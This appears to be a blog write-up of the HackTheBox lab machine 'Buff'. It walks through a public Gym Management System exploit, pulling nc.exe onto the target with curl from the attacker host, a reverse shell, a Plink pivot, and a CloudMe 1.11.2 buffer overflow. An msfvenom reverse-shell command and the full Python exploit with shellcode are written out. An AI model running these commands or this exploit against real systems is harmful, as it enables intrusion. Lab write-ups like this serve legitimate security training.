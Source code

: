 ```yaml
---
title: 'HTB: Buff'
date: '2020-11-21 19:04:00 -0400'
categories:
  - HackTheBox
  - Write-ups
tags:
  - HTB
  - pivot
  - overflow
published: true
---
```


IP: 10.10.10.198


We'll start things off with an NMap scan.
![06cfc558fe03d8b0c3ed3ca3e3649822.png](./../../assets/img/06cfc558fe03d8b0c3ed3ca3e3649822.png)


The webserver on port 8080 looks to be running Gym Management System. The standard footer has been changed to hide this, but it's still on the contact page.
![c1b4ec2904be4e3ec168d8841d9c5104.png](./../../assets/img/c1b4ec2904be4e3ec168d8841d9c5104.png)
![9b3d9de1efcab6ab008f565155f73edd.png](./../../assets/img/9b3d9de1efcab6ab008f565155f73edd.png)


We can use a public exploit to get a basic shell from [here](https://www.exploit-db.com/exploits/48506). If you're running Kali 2020, you will probably need to fix the exploit in order for it to work since Python2.7 is heavily phased out. This can be done with `2to3-2.7 -w 48506.py`.
![7275456c3113cf7b9e1dcbcea0218d3d.png](./../../assets/img/7275456c3113cf7b9e1dcbcea0218d3d.png)


Now we can run the exploit properly with Python3.
![f64f50b891d5a7611026a15244cbf293.png](./../../assets/img/f64f50b891d5a7611026a15244cbf293.png)


We can grab the user flag now before we try to get a better shell on the box.
![1e8c67e104e7a1a0c79a921f93aafe15.png](./../../assets/img/1e8c67e104e7a1a0c79a921f93aafe15.png)


CertUtil doesn't want to cooperate, but we do have access to Curl. We'll host a Netcat binary with `python -m SimpleHTTPServer 80` and then run `curl -O <kali-ip>:80/nc.exe` to pull it to the target.
![4a95b684b25ee4d221f0a4bb0f455638.png](./../../assets/img/4a95b684b25ee4d221f0a4bb0f455638.png)
![e1ec03a5cab2677f02cae976dc1bf2d2.png](./../../assets/img/e1ec03a5cab2677f02cae976dc1bf2d2.png)


Now we can start a listener and then call Netcat.
![f6956c3f6f6adca55ae60ed9c1b2ad8a.png](./../../assets/img/f6956c3f6f6adca55ae60ed9c1b2ad8a.png)
![ebed04248fed4e721a46f157b490dbc6.png](./../../assets/img/ebed04248fed4e721a46f157b490dbc6.png)


If we take a look at running processes with `tasklist` we see a strange process called CloudMe.
![7843a116bb14da112accdcffccd36db4.png](./../../assets/img/7843a116bb14da112accdcffccd36db4.png)


Looking around, we find the exe in Shaun's downloads folder.
![e3abd20723ec52b108ed4dcba88307cf.png](./../../assets/img/e3abd20723ec52b108ed4dcba88307cf.png)


A quick google search shows us that this version is vulnerable to a buffer overflow attack. Given the name of the box, this should be our way to privesc.
https://www.exploit-db.com/exploits/48389


The default port for CloudMe is 8888. We can check to see if it's listening on that with `netstat -aof | findstr :8888`.
![15194e417049dd2769842e62bcc79a96.png](./../../assets/img/15194e417049dd2769842e62bcc79a96.png)


Unfortunately we can't access this directly if we look back at our Nmap scan. We'll have to find a way to pivot into it using something like Plink.

![e26a278e002293ad825c7dfbe53d1825.png](./../../assets/img/e26a278e002293ad825c7dfbe53d1825.png)


We need to run Curl in another instance of the web shell.
![7d184b4ad7770a1bd5612f598f738ed6.png](./../../assets/img/7d184b4ad7770a1bd5612f598f738ed6.png)
![4104ddb888b79f62429201098b951c84.png](./../../assets/img/4104ddb888b79f62429201098b951c84.png)


Now we can start up the SSH service on our system for the incoming connection we'll make with Plink.
![fb7892c83fd455faad4232846498a3c5.png](./../../assets/img/fb7892c83fd455faad4232846498a3c5.png)


Before we make the connection, I strongly suggest you use the `passwd` command to set a temp password, or use a temporary account in case someone manages to hijack your credentials.
![bfb63c6255693c09d4fcfbcbac53891b.png](./../../assets/img/bfb63c6255693c09d4fcfbcbac53891b.png)


After some tinkering, we find that trying to call Plink from within the CMD shell we have doesn't work. Restarting the NC shell while passing powershell.exe shows the certificate dialog so we can confirm it. We have also set our SSH service to run on port 443 as well since HTB blocks SSH out on port 22 to keep users safer.
![ef60c279631269273f4b1338b32afce9.png](./../../assets/img/ef60c279631269273f4b1338b32afce9.png)


Now we can generate a payload for the CloudMe exploit using MsfVenom.
```bash
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe <kali-ip> 4445 -e powershell.exe' -b '\x00\x0A\x0D' -f python -v payload
```
![d50e016d78503e5f469c1fc64f172b6b.png](./../../assets/img/d50e016d78503e5f469c1fc64f172b6b.png)


Now we have our finished exploit.
```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xd9\xd0\xd9\x74\x24\xf4\xba\x32\x4a\x21\x90\x58"
payload += b"\x2b\xc9\xb1\x40\x83\xe8\xfc\x31\x50\x14\x03\x50"
payload += b"\x26\xa8\xd4\x6c\xae\xae\x17\x8d\x2e\xcf\x9e\x68"
payload += b"\x1f\xcf\xc5\xf9\x0f\xff\x8e\xac\xa3\x74\xc2\x44"
payload += b"\x30\xf8\xcb\x6b\xf1\xb7\x2d\x45\x02\xeb\x0e\xc4"
payload += b"\x80\xf6\x42\x26\xb9\x38\x97\x27\xfe\x25\x5a\x75"
payload += b"\x57\x21\xc9\x6a\xdc\x7f\xd2\x01\xae\x6e\x52\xf5"
payload += b"\x66\x90\x73\xa8\xfd\xcb\x53\x4a\xd2\x67\xda\x54"
payload += b"\x37\x4d\x94\xef\x83\x39\x27\x26\xda\xc2\x84\x07"
payload += b"\xd3\x30\xd4\x40\xd3\xaa\xa3\xb8\x20\x56\xb4\x7e"
payload += b"\x5b\x8c\x31\x65\xfb\x47\xe1\x41\xfa\x84\x74\x01"
payload += b"\xf0\x61\xf2\x4d\x14\x77\xd7\xe5\x20\xfc\xd6\x29"
payload += b"\xa1\x46\xfd\xed\xea\x1d\x9c\xb4\x56\xf3\xa1\xa7"
payload += b"\x39\xac\x07\xa3\xd7\xb9\x35\xee\xbd\x3c\xcb\x94"
payload += b"\xf3\x3f\xd3\x96\xa3\x57\xe2\x1d\x2c\x2f\xfb\xf7"
payload += b"\x09\xdf\xb1\x5a\x3b\x48\x1c\x0f\x7e\x15\x9f\xe5"
payload += b"\xbc\x20\x1c\x0c\x3c\xd7\x3c\x65\x39\x93\xfa\x95"
payload += b"\x33\x8c\x6e\x9a\xe0\xad\xba\xd9\x3c\x0e\x3d\xbf"
payload += b"\x2d\xde\xcd\x63\xc5\x6a\x4a\xf3\x76\xe0\xce\x6c"
payload += b"\x01\x6b\xb3\x07\x81\x1f\x24\x89\x05\xbc\xd4\x2a"
payload += b"\xeb\x59\x51\xc8\xd3\x90\x91\x3c\x22\xe3\xff\x71"
payload += b"\x70\x2d\x31\x42\x58\x05\x05\x96\xad\x45\x48\xb3"
payload += b"\xed\xf5\xfd\x4c\x88\x87\x72\xdb\x37\x04\x19\x35"
payload += b"\xd2\xac\x84\x49"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```


We'll start up a new Netcat listener on port 4445 and fire off the exploit.
![f46a4c0b9690f0cac479efcd83437111.png](./../../assets/img/f46a4c0b9690f0cac479efcd83437111.png)
![1f85e6943af0a92fe0a7a6f19a515609.png](./../../assets/img/1f85e6943af0a92fe0a7a6f19a515609.png)


All that's left is to grab the root flag.
![44a5971c51e4bcda3735e3b9b8477165.png](./../../assets/img/44a5971c51e4bcda3735e3b9b8477165.png)
